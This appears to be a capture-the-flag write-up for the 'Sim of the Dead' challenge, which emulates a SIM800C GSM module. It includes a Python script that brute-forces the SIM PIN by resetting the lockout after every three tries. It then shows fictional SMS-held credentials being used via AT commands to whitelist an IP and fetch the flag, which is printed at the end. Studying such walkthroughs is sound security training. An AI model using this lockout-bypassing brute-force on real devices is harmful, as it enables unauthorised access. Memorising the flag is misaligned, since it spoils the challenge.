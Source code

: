 ## Sim of the Dead

We can connect to the instance using nc with the following command:

```bash
nc [ip] 9000
```

from the response we can see that this is an emulator of a SIM800C GSM (https://www.researchdesignlab.com/projects/GSM-SIM800C-Manual.pdf).
These links contain useful commands:
- https://www.waveshare.com/wiki/Template:SIM800C_GSM/GPRS_HAT_User_Manual
- https://www.integral-system.fr/shop/media/product/file/atcommandsapplicationnote201904241-5fc10e94e0488.pdf

Let's see all the messages stored in the sim:

    AT+CMGL="ALL"

ah, the sim is locked with an unknown PIN. We can try bruteforcing it with a script that will try 3 pins, reset the sim, try 3 more and so on.
The following script does the job:

```python
#!/usr/bin/env python3
import socket
import argparse

def hack(host:str, port:int):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host,port))
        sf = s.makefile()
        while True:
            line = sf.readline()
            print(line)
            if line.startswith("[!]Notice"):
                break
        print("Notice received, bruteforcing..")
        for i in range(0,9999):
            si = str(i)
            pi = si.zfill(4)
            print(pi)
            while True:
                sb = f"AT+CPIN={pi}\n"
                s.send(sb.encode())
                line = sf.readline().strip()
                if "SIM LOCKED" in line:
                    print("SIM RESET")
                    s.send(b"+RST+SIM\n")
                    line = ""
                    while not line:
                        line = sf.readline().strip()
                    continue
                break
            if not "ERROR" in line:
                print(f"FOUND: {pi}")
                break

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("host")
    parser.add_argument("port",type=int)
    args = parser.parse_args()
    hack(args.host, args.port)
```

We soon find out that the PIN is `4321`.

We can now enter the pin and list all the messages:
```
AT+CPIN=4321
AT+CMGL="ALL"
```
here we will find some details:
```
+CMGL: 2,"REC READ","+39231231231[MARK-OFFICE]","",25/04/06,17:37:00+31
Just a reminder as you keep forgetting how the damn door works:
SEND AN EMAIL to [officedoor@groundstation.gov] from your phone with your password as the ONLY TEXT in the subject.
We will verify your account and allow your IP.
```
```
+CMGL: 4,"REC READ","+3996969696[SNADO-MAIL]","",25/04/06,17:38:00+29
Your email credentials, reachable via the encrypted snadophone network, are:
SMTP:'smtp.snadophone.domain:25'
User: john[at]groundstation[dot]gov
Pass: `ILikeMyPeninsula32`
```
```
+CMGL: 5,"REC SENT","+39231231231[MARK-OFFICE]","",25/04/06,17:39:00+29
Oh and which was the link to open the door?

+CMGL: 6,"REC READ","+39231231231[MARK-OFFICE]","",25/04/06,17:45:00+29
(http://officedoor.groundstation.gov).
And it's not a cup holder.
It's a purple-ray writer. You idiot.
```
```
+CMGL: 8,"REC READ","+39666666666[SNADO-PHONE]","",25/04/06,17:46:00+29
Snado:Phone company
Here you can find your internet configuration, as requested:
Mode: GPRS
APN: `apn.snadophone.domain`
Have a great day!
```
We need to connect to gprs. We can do that with the following commands:
```
AT+SAPBR=3,1,"CONTYPE","GPRS"
AT+SAPBR=3,1,"APN","apn.snadophone.domain"
```
(verify with)
```
AT+SAPBR=1,1
AT+SAPBR=2,1
```
To send the email we can do the following:
```
AT+SMTPSRV="smtp.snadophone.domain",25
AT+SMTPAUTH=1,"john@groundstation.gov","ILikeMyPeninsula32"
AT+SMTPRCPT=0,0,"officedoor@groundstation.gov","test"
AT+SMTPSUB="ILikeMyPeninsula32"
AT+SMTPSEND
```
It will answer with:
```
+SMTPSEND: IP WHITELISTED
```
Finally we can make the http request:
```
AT+HTTPINIT
AT+HTTPPARA="CID",1
AT+HTTPPARA="URL","officedoor.groundstation.gov"
AT+HTTPACTION=0
AT+HTTPREAD
```
The flag will be printed:
```
NTRLGC{D00R_0P3N3D_4_Y0U}
```